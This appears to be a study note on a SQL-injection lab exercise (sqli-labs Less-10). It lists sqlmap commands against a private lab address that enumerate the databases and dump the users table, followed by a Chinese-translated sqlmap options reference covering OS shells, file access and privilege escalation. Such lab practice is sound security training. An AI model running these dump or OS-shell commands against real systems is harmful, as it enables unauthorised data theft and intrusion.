

```
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch
```



```shell
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch --level=5 --risk=3
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch --dbs
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch -D security --tables
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch -D security -T users --columns
python sqlmap.py -u http://10.16.2.3:8081/Less-10/?id=1 --batch -D security -T users --dump

```


```
Options:
  -h, --help            Show basic help message and exit
  -hh                   显示高级帮助消息并退出
  --version             显示程序的版本号并退出
  -v VERBOSE            详细级别：0-6(默认为 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   目标URL (e.g. "http://www.site.com/vuln.php?id=1")
    -d DIRECT           用于直接数据库连接的连接字符串
    -l LOGFILE          从Burp或WebScarab代理日志文件中解析目标
    -m BULKFILE         从文本文件中扫描多个目标
    -r REQUESTFILE      从文件中加载HTTP请求
    -g GOOGLEDORK       将Google dork结果处理为目标URL
    -c CONFIGFILE       从配置INI文件中加载选项

  请求:
    这些选项可用于指定如何连接到目标URL

    -A AGENT, --user..  HTTP User-Agent头部的值
    -H HEADER, --hea..  额外的头部(例如"X-Forwarded-For: 127.0.0.1")
    --method=METHOD     强制使用给定的HTTP方法(例如PUT)
    --data=DATA         要通过POST发送的数据字符串(例如"id=1")
    --param-del=PARA..  用于分割参数值的字符(例如&)
    --cookie=COOKIE     HTTP Cookie头部的值(例如"PHPSESSID=a8d127e..")
    --cookie-del=COO..  用于分割cookie值的字符(例如;)
    --live-cookies=L..  用于加载最新值的实时cookie文件
    --load-cookies=L..  包含Netscape/wget格式cookie的文件
    --drop-set-cookie   忽略响应中的Set-Cookie头部
    --mobile            通过HTTP User-Agent头部模拟智能手机
    --random-agent      使用随机选择的HTTP User-Agent头部值
    --host=HOST         HTTP Host头部的值
    --referer=REFERER   HTTP Referer头部的值
    --headers=HEADERS   额外的头部(例如"Accept-Language: fr\nETag: 123")
    --auth-type=AUTH..  HTTP身份验证类型(Basic,Digest,Bearer等)
    --auth-cred=AUTH..  HTTP身份验证凭据(用户名:密码)
    --auth-file=AUTH..  HTTP身份验证PEM证书/私钥文件
    --abort-code=ABO..  在(有问题的)HTTP错误代码上中止(例如401)
    --ignore-code=IG..  忽略(有问题的)HTTP错误代码(例如401)
    --ignore-proxy      忽略系统默认代理设置
    --ignore-redirects  忽略重定向尝试
    --ignore-timeouts   忽略连接超时
    --proxy=PROXY       使用代理连接到目标URL
    --proxy-cred=PRO..  代理身份验证凭据(用户名:密码)
    --proxy-file=PRO..  从文件中加载代理列表
    --proxy-freq=PRO..  在给定列表中更改代理之间的请求次数
    --tor               使用Tor匿名网络
    --tor-port=TORPORT  设置Tor代理端口(非默认值)
    --tor-type=TORTYPE  设置Tor代理类型(HTTP,SOCKS4或SOCKS5(默认))
    --check-tor         检查Tor是否正确使用
    --delay=DELAY       每个HTTP请求之间的延迟时间(秒)
    --timeout=TIMEOUT   连接超时前等待的秒数(默认值30)
    --retries=RETRIES   连接超时时的重试次数(默认值3)
    --retry-on=RETRYON  在正则表达式匹配内容时重试请求(例如"drop")
    --randomize=RPARAM  随机更改给定参数的值
    --safe-url=SAFEURL  在测试期间频繁访问的URL地址
    --safe-post=SAFE..  发送到安全URL的POST数据
    --safe-req=SAFER..  从文件中加载安全的HTTP请求
    --safe-freq=SAFE..  在访问安全URL之间的常规请求次数
    --skip-urlencode    跳过对负载数据的URL编码
    --csrf-token=CSR..  用于保存反CSRF令牌的参数
    --csrf-url=CSRFURL  用于提取反CSRF令牌的URL地址
    --csrf-method=CS..  在访问反CSRF令牌页面时使用的HTTP方法
    --csrf-data=CSRF..  在访问反CSRF令牌页面时发送的POST数据
    --csrf-retries=C..  反CSRF令牌检索的重试次数(默认值0)
    --force-ssl         强制使用SSL/HTTPS
    --chunked           使用HTTP分块传输编码(POST)请求
    --hpp               使用HTTP参数污染方法
    --eval=EVALCODE     在请求之前评估提供的Python代码(例如"import
                        hashlib;id2=hashlib.md5(id).hexdigest()")

  优化:
    这些选项可用于优化sqlmap的性能

    -o                  打开所有优化开关
    --predict-output    预测常见查询的输出
    --keep-alive        使用持久的HTTP(s)连接
    --null-connection   在没有实际HTTP响应体的情况下获取页面长度
    --threads=THREADS   最大并发HTTP(s)请求数(默认值1)

  注入:
    这些选项可用于指定要测试的参数,提供自定义的注入载荷和可选的篡改脚本

    -p TESTPARAMETER    可测试的参数
    --skip=SKIP         跳过对给定参数的测试
    --skip-static       跳过不显示为动态的参数的测试
    --param-exclude=..  用于排除测试的参数的正则表达式(例如"ses")
    --param-filter=P..  按位置选择可测试的参数(例如"POST")
    --dbms=DBMS         强制指定后端DBMS的值
    --dbms-cred=DBMS..  DBMS身份验证凭据(用户名:密码)
    --os=OS             强制指定后端DBMS的操作系统
    --invalid-bignum    使用大数来使值无效
    --invalid-logical   使用逻辑操作使值无效
    --invalid-string    使用随机字符串使值无效
    --no-cast           关闭载荷转换机制
    --no-escape         关闭字符串转义机制
    --prefix=PREFIX     注入载荷前缀字符串
    --suffix=SUFFIX     注入载荷后缀字符串
    --tamper=TAMPER     使用给定的脚本对注入数据进行篡改

  检测:
    这些选项可用于自定义检测阶段

    --level=LEVEL       要执行的测试级别(1-5,默认值1)
    --risk=RISK         要执行的测试风险级别(1-3,默认值1)
    --string=STRING     当查询评估为True时要匹配的字符串
    --not-string=NOT..  当查询评估为False时要匹配的字符串
    --regexp=REGEXP     当查询评估为True时要匹配的正则表达式
    --code=CODE         当查询评估为True时要匹配的HTTP代码
    --smart             仅在存在正面启发式时执行彻底的测试
    --text-only         仅基于文本内容比较页面
    --titles            仅基于页面标题比较页面

  技术:
    这些选项可用于调整特定SQL注入技术的测试

    --technique=TECH..  要使用的SQL注入技术(默认值"BEUSTQ")
    --time-sec=TIMESEC  延迟DBMS响应的秒数(默认值5)
    --union-cols=UCOLS  要测试UNION查询SQL注入的列范围
    --union-char=UCHAR  用于暴力破解列数的字符
    --union-from=UFROM  在UNION查询SQL注入的FROM部分中使用的表
    --union-values=U..  用于UNION查询SQL注入的列值
    --dns-domain=DNS..  用于DNS泄露攻击的域名
    --second-url=SEC..  搜索第二次响应的结果页面URL
    --second-req=SEC..  从文件中加载第二次HTTP请求

  指纹识别:
    -f, --fingerprint   执行详细的DBMS版本指纹识别

  枚举:
    这些选项可用于枚举后端数据库管理系统中的信息、结构和数据

    -a, --all           检索所有内容
    -b, --banner        检索DBMS横幅
    --current-user      检索DBMS当前用户
    --current-db        检索DBMS当前数据库
    --hostname          检索DBMS服务器主机名
    --is-dba            检测DBMS当前用户是否为DBA
    --users             枚举DBMS用户
    --passwords         枚举DBMS用户密码哈希值
    --privileges        枚举DBMS用户权限
    --roles             枚举DBMS用户角色
    --dbs               枚举DBMS数据库
    --tables            枚举DBMS数据库表
    --columns           枚举DBMS数据库表列
    --schema            枚举DBMS模式
    --count             检索表的条目数
    --dump              转储DBMS数据库表条目
    --dump-all          转储所有DBMS数据库表条目
    --search            搜索列、表和/或数据库名称
    --comments          在枚举过程中检查DBMS注释
    --statements        检索在DBMS上运行的SQL语句
    -D DB               要枚举的DBMS数据库
    -T TBL              要枚举的DBMS数据库表
    -C COL              要枚举的DBMS数据库表列
    -X EXCLUDE          不要枚举的DBMS数据库标识符
    -U USER             要枚举的DBMS用户
    --exclude-sysdbs    在枚举表时排除DBMS系统数据库
    --pivot-column=P..  枢轴列名称
    --where=DUMPWHERE   在转储表时使用WHERE条件
    --start=LIMITSTART  要检索的第一个转储表条目
    --stop=LIMITSTOP    要检索的最后一个转储表条目
    --first=FIRSTCHAR   要检索的第一个查询输出单词字符
    --last=LASTCHAR     要检索的最后一个查询输出单词字符
    --sql-query=SQLQ..  要执行的SQL语句
    --sql-shell         提示进行交互式SQL shell
    --sql-file=SQLFILE  从给定文件中执行SQL语句

  暴力破解:
    这些选项可用于运行暴力破解检查

    --common-tables     检查常见表的存在
    --common-columns    检查常见列的存在
    --common-files      检查常见文件的存在

  用户定义函数注入:
    这些选项可用于创建自定义的用户定义函数

    --udf-inject        注入自定义的用户定义函数
    --shared-lib=SHLIB  共享库的本地路径

  文件系统访问:
    这些选项可用于访问后端数据库管理系统的底层文件系统

    --file-read=FILE..  从后端DBMS文件系统中读取文件
    --file-write=FIL..  在后端DBMS文件系统上写入本地文件
    --file-dest=FILE..  要写入的后端DBMS绝对文件路径

  操作系统访问:
    这些选项可用于访问后端数据库管理系统的底层操作系统

    --os-cmd=OSCMD      执行操作系统命令
    --os-shell          提示进行交互式操作系统shell
    --os-pwn            提示进行OOB shell、Meterpreter或VNC
    --os-smbrelay       一键提示进行OOB shell、Meterpreter或VNC
    --os-bof            存储过程缓冲区溢出利用
    --priv-esc          数据库进程用户权限提升
    --msf-path=MSFPATH  Metasploit Framework安装的本地路径
    --tmp-path=TMPPATH  临时文件目录的远程绝对路径

  Windows注册表访问:
    这些选项可用于访问后端数据库管理系统的Windows注册表

    --reg-read          读取Windows注册表键值
    --reg-add           写入Windows注册表键值数据
    --reg-del           删除Windows注册表键值
    --reg-key=REGKEY    Windows注册表键
    --reg-value=REGVAL  Windows注册表键值
    --reg-data=REGDATA  Windows注册表键值数据
    --reg-type=REGTYPE  Windows注册表键值类型

  常规:
    这些选项可用于设置一些常规工作参数

    -s SESSIONFILE      从存储的(.sqlite)文件中加载会话
    -t TRAFFICFILE      将所有HTTP流量记录到文本文件中
    --abort-on-empty    在结果为空时中止数据检索
    --answers=ANSWERS   设置预定义的答案(例如"quit=N,follow=N")
    --base64=BASE64P..  包含Base64编码数据的参数
    --base64-safe       使用URL和文件名安全的Base64字母表(RFC 4648)
    --batch             不要询问用户输入,使用默认行为
    --binary-fields=..  具有二进制值的结果字段(例如"digest")
    --check-internet    在评估目标之前检查互联网连接
    --cleanup           从sqlmap特定的UDF和表中清理DBMS
    --crawl=CRAWLDEPTH  从目标URL开始爬取网站
    --crawl-exclude=..  用于排除爬取的页面的正则表达式(例如"logout")
    --csv-del=CSVDEL    CSV输出中使用的分隔字符(默认值",")
    --charset=CHARSET   盲SQL注入字符集(例如"0123456789abcdef")
    --dump-file=DUMP..  将转储的数据存储到自定义文件中
    --dump-format=DU..  转储数据的格式(CSV(默认值),HTML或SQLITE)
    --eta               为每个输出显示预计到达时间
    --flush-session     清除当前目标的会话文件
    --forms             解析和测试目标URL上的表单
    --fresh-queries     忽略会话文件中存储的查询结果
    --gpage=GOOGLEPAGE  使用指定的页码从Google dork结果中获取
    --har=HARFILE       将所有HTTP流量记录到HAR文件中
    --hex               在数据检索过程中使用十六进制转换
    --output-dir=OUT..  自定义输出目录路径
    --parse-errors      解析和显示来自响应的DBMS错误消息
    --preprocess=PRE..  用于预处理的给定脚本(请求)
    --postprocess=PO..  用于后处理的给定脚本(响应)
    --repair            重新转储具有未知字符标记(?)的条目
    --save=SAVECONFIG   将选项保存到配置INI文件中
    --scope=SCOPE       用于过滤目标的正则表达式
    --skip-heuristics   跳过启发式检测漏洞
    --skip-waf          跳过启发式检测WAF/IPS保护
    --table-prefix=T..  用于临时表的前缀(默认值："sqlmap")
    --test-filter=TE..  通过负载和/或标题选择测试(例如ROW)
    --test-skip=TEST..  通过负载和/或标题跳过测试(例如BENCHMARK)
    --time-limit=TIM..  以秒为单位设置运行时间限制(例如3600)
    --web-root=WEBROOT  Web服务器文档根目录(例如"/var/www")

  杂项:
    这些选项不属于任何其他类别

    -z MNEMONICS        使用短助记符(例如"flu,bat,ban,tec=EU")
    --alert=ALERT       在发现SQL注入时运行主机操作系统命令
    --beep              在提问时和/或发现漏洞时发出蜂鸣声
    --dependencies      检查缺失的(可选的)sqlmap依赖项
    --disable-coloring  禁用控制台输出着色
    --list-tampers      显示可用的篡改脚本列表
    --no-logging        禁用日志记录到文件
    --offline           在离线模式下工作(仅使用会话数据)
    --purge             安全地从sqlmap数据目录中删除所有内容
    --results-file=R..  多目标模式下CSV结果文件的位置
    --shell             提示进行交互式sqlmap shell
    --tmp-dir=TMPDIR    用于存储临时文件的本地目录
    --unstable          调整不稳定连接的选项
    --update            更新sqlmap
    --wizard            面向初学者用户的简单向导界面

```


